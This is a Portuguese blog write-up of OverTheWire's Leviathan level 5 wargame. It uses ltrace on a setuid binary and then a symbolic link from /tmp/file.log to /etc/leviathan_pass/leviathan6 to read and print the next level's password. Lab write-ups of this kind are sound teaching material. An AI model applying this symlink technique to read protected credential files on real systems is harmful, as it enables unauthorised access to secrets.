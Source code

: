 ```yaml
---
layout: default
title: Level 5 Abusando links simbólicos [OverTheWire CTF – Leviathan]
date: 2016-11-16 19:29
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Leviathan OverTheWire]
---
```

<ul>
    <li><a href="https://brerodrigues.github.io/ctfs/level-0-e-1-overthewire-ctf-leviathan-write-ups">Level 0</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-leviathan-write-up">Level 1</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-leviathan-write-up">Level 2</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-3-overthewire-ctf-leviathan-write-up">Level 3</a></li>
    <li><a href="https://brerodrigues.github.io/ctfs/level-4-overthewire-ctf-leviathan-write-up">Level 4</a></li>
</ul>

<blockquote>Com o evoluir dos write-ups, vou começando a ficar mais breve. Como, por exemplo, a essa altura nem precisa falar mais que estou logado como leviathan5 no servidor ssh, certo?

Se chegou aqui de para-quedas e voar em alguma coisa, volte ao level0 ;)</blockquote>

```
leviathan5@melinda:~$ ls -alh
total 28K
drwxr-xr-x   2 root       root       4.0K Nov 14  2014 .
drwxr-xr-x 172 root       root       4.0K Jul 10 14:12 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3.6K Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan6 leviathan5 7.5K Nov 14  2014 leviathan5
```

<strong>leviathan5</strong> será o explorado da vez.

```
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
```

Ok, se for para agradar, eu crio o arquivo <strong>file.log</strong> em <strong>/tmp</strong>.

```
leviathan5@melinda:~$ echo fodase /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
fodase
```

Então leviathan5 lê o arquivo /tmp/file.log e me mostra o conteúdo?
Só ver o que ele faz por fora impossibilita a criação de teorias especificas. Hora de usar o <em>ltrace</em> (amigo de todas as horas e challs do leviathan) e descobrir o que o programa faz por baixo dos panos.

```
leviathan5@melinda:~$ ltrace ./leviathan5
__libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 unfinished ...&amp;gt;
fopen(/tmp/file.log, r)                      = 0
puts(Cannot find /tmp/file.logCannot find /tmp/file.log
)                = 26
exit(-1 no return ...&amp;gt;
+++ exited (status 255) +++
```

Mas eu não tinha acabado de criar essa porra?
Hora de tentar de novo.

```
leviathan5@melinda:~$ echo fodase /tmp/file.log
leviathan5@melinda:~$ ltrace ./leviathan5                                       __libc_start_main(0x80485ed, 1, 0xffffd794, 0x8048690 unfinished ...&amp;gt;
fopen(/tmp/file.log, r)                      = 0x804b008
fgetc(0x804b008)                                 = 'f'
feof(0x804b008)                                  = 0
putchar(102, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 102
fgetc(0x804b008)                                 = 'o'
feof(0x804b008)                                  = 0
putchar(111, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 111
fgetc(0x804b008)                                 = 'd'
feof(0x804b008)                                  = 0
putchar(100, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 100
fgetc(0x804b008)                                 = 'a'
feof(0x804b008)                                  = 0
putchar(97, 0x8048720, 0xffffd79c, 0xf7e5619d)   = 97
fgetc(0x804b008)                                 = 's'
feof(0x804b008)                                  = 0
putchar(115, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 115
fgetc(0x804b008)                                 = 'e'
feof(0x804b008)                                  = 0
putchar(101, 0x8048720, 0xffffd79c, 0xf7e5619d)  = 101
fgetc(0x804b008)                                 = '\n'
feof(0x804b008)                                  = 0
putchar(10, 0x8048720, 0xffffd79c, 0xf7e5619dfodase
)   = 10
fgetc(0x804b008)                                 = '\377'
feof(0x804b008)                                  = 1
fclose(0x804b008)                                = 0
getuid()                                         = 12005
setuid(12005)                                    = 0
unlink(/tmp/file.log)                          = 0
+++ exited (status 0) +++
```

Tudo certo, tudo ok. A única coisa que só acabei percebendo nesse momento foi que, após ler e imprimir o conteúdo de file.log, ele o exclui. Mas ele não chama <a href="http://www.uniriotec.br/~morganna/guia/libc/cs_unlink.html">unlink </a>sem antes <a href="http://man7.org/linux/man-pages/man2/getuid.2.html">pegar meu uid real</a> (o de leviathan5). Essa última parte fez minha criatividade trabalhar. E se file.log for um <a href="https://www.vivaolinux.com.br/dica/Link-simbolico-e-hardlink">link simbólico</a> para <strong>/etc/leviathan_pass/leviathan6</strong>? Esta seria uma boa razão para pegar meu uid antes de executar unlink, porque assim o arquivo seria lido mas não excluído, afinal, antes de chamar <a href="http://manpages.ubuntu.com/manpages/trusty/pt/man2/setuid.2.html">setuid</a>, eu ainda tenho permissões de leviathan6.

Só para constar, não tenho total certeza sobre o arquivo ser excluído no fim se o programa não pegasse meu uid real (não sei como os caras do over the wire lidam com as possibilidades de alguém tentar fazer merda no ctf deles), mas esta porra faz sentido.

Hora de testar o link simbólico e ver se essa flag vem.

```
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
ZW1pbmVt
```


